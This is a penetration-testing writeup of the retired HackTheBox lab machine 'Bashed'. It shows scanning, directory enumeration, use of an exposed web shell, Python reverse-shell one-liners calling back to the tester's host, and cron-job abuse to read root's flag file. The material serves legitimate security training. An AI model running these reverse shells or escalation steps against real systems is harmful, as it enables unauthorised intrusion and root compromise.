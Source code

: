 ```yaml
---
layout: post
title: "Writeup: HackTheBox Bashed - NO Metasploit"
description: "Rooting Bashed without using Metasploit."
tags: pentest hackthebox writeup
---
```


This series will follow my exercises in [HackTheBox][]. All published writeups are for retired HTB machines. Whether
 or not I use Metasploit to pwn the server will be indicated in the title.
 
# Bashed

_<small>Difficulty: Easy</small>_

_<small>Machine IP: 10.10.10.68</small>_

The initial port scan returns only 1 port active, a web server.

```bash
sudo nmap -sS -T4 -p- 10.10.10.68
[sudo] password for artis3n: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-07 11:03 EDT
Nmap scan report for 10.10.10.68
Host is up (0.016s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 11.63 seconds
```

```bash
sudo nmap -A -sC -sV -p 80 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-07 11:04 EDT
Nmap scan report for 10.10.10.68
Host is up (0.013s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   11.83 ms 10.10.14.1
2   11.98 ms 10.10.10.68
```

In particular, I note that it is an Apache httpd server likely running version 2.4.18.

Let's enumerate.
My absolute favorite web directory enumeration tool is [gobuster][].

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 30 -u http://10.10.10.68/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68/
[+] Threads:        30
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/07 11:10:03 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2020/06/07 11:10:16 Finished
===============================================================
```

`/dev` looks interesting!
Navigating to this directory reveals some PHP scripts.

![phpbash dev dir][]

Hmmm...
Navigating to `/dev/phpbash.php` gives me a semi-interactive web shell as the `www-data` user.

![phpbash terminal][]

I can `cat` the user flag straight from this terminal.
I can get a reverse shell back to my host machine with python:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.34",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

It is important to change the `s.connect(("10.10.14.34",443));` section to what is applicable for your host.

Now for information gathering to find a privilege escalation vector.
Let's get a TTY shell before I do anything else.

```bash
# In reverse shell
SHELL=/bin/bash script -q /dev/null
# ctrl+z (background netcat reverse shell)
stty raw -echo
fg
reset # Re-initialize the backgrounded reverse shell
xterm
```

`sudo -l` informs me that we can run any command as the `scriptmanager` user without needing a password.

```bash
sudo -l

Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So, let's go ahead and pivot to the `scriptmanager` user. This won't work if your TTY shell is not set up correctly.

```bash
sudo -u scriptmanager /bin/bash
```

Given the name of the user is `scriptmanager`, I imagine this user has some scripts on the system that it has access to manage.
I check for all files on the system owned by this user.

```bash
find / -type f -user scriptmanager 2>/dev/null 
/scripts/test.py
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout
```

Well, `/scripts/test.py` stands out.
Looking at the contents of this file, I see it opens a file and writes out a test string.
It also appears that the created `test.txt` file is owned by root, so there is likely a cron job running on the system where root executes the code in `test.py`.
Interesting!

![test.py script][]

This means we can modify the `test.py` file and wait for root to execute the code.
I tried creating a reverse shell script, but I had TTY errors that I did not resolve.

```python
#!/usr/bin/env python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.34", 454))
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```

On my host:

```bash
listening on [any] 454 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.68] 40738
/bin/sh: 0: can't access tty; job control turned off
# 
```

Reviewing this code while writing this article, I realized I missed `os.dup2(s.fileno(),0)` in my python file.
Try that out and you should get a reverse shell back to your machine.

However, I opted to have the script write the `root.txt` contents to the test file.

```python
#!/usr/bin/env python

p = open("/root/root.txt", "r")
contents = p.read()
f = open("test.txt", "w")
f.write(contents)
p.close
f.close
```

This allows me to then read the `test.txt` file for the root flag.

[gobuster]: https://github.com/OJ/gobuster
[hackthebox]: https://www.hackthebox.eu

[phpbash dev dir]: /assets/img/htb/bashed/dev-dir-list.png
[phpbash terminal]: /assets/img/htb/bashed/phpbash-terminal.png
[test.py script]: /assets/img/htb/bashed/test-py-script.png
